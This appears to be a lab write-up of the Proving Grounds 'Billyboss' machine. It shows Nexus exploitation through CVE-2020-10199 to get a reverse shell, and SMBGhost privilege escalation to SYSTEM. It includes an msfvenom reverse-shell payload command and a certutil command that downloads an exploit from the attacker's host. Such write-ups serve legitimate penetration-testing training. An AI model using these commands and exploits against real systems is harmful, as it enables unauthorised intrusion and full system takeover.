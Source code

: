 #### Enumeration

The website on port 8081 is running Sonatype Nexus service version 3.21.0-05. The credential is nexus///nexus.(only guess...refer to the official walkthrough)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.08_22h46m50s_001_.png)

We can use [CVE-2020-10199](https://www.exploit-db.com/exploits/49385). I modify the exploit codes to download the ```nc.exe``` from my pc for executing the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_12h50m27s_002_.png)

The executable file upload successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h12m33s_003_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h13m45s_004_.png)

We modify the codes again to execute the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h15m22s_005_.png)

We get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h16m17s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h20m36s_007_.png)

#### Privilege Escalation

Uploading ```winPEASx86.exe``` to check the vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h31m06s_008_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h31m34s_009_.png)

According to the listed system information this machine may have smbghost vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_13h38m18s_010_.png)

Downloading the [exploit](https://github.com/danigargu/CVE-2020-0796) visual studio project. We need Visual Studio (or may be use MSBulid) to compile the project.

I use the Visual Studio 2022 Community Edition and install the desktop development with C++.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h15m36s_011_.png)

Upgrading the project automatically and setting the platform to x64.(*target server installed the .NET Framework 4.8)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h15m37s_012_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h15m38s_013_.png)

Generating shellcode with msfvenom. (*if we don't replace the shellcode after executing the exploit it will pop up the another command prompt window with authority\system permission, but in the webshell we can't switch to another command prompt)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.127 LPORT=80 -f dll -f csharp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h24m40s_014_.png)

Replacing the shellcode.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h26m36s_015_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h26m37s_016_.png)

Building the project.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h31m37s_017_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h32m37s_018_.png)

We upload the exploit file to target server.

```
certutil -f -urlcache http://192.168.49.127/cve-2020-0796-local.exe cve-2020-0796-local.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h33m37s_019_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h34m37s_020_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h34m38s_021_.png)

Executing the exploit.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h38m38s_022_.png)

We get the shell with authority\system permission.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Billyboss/Billyboss_2021.12.12_15h38m50s_023_.png)
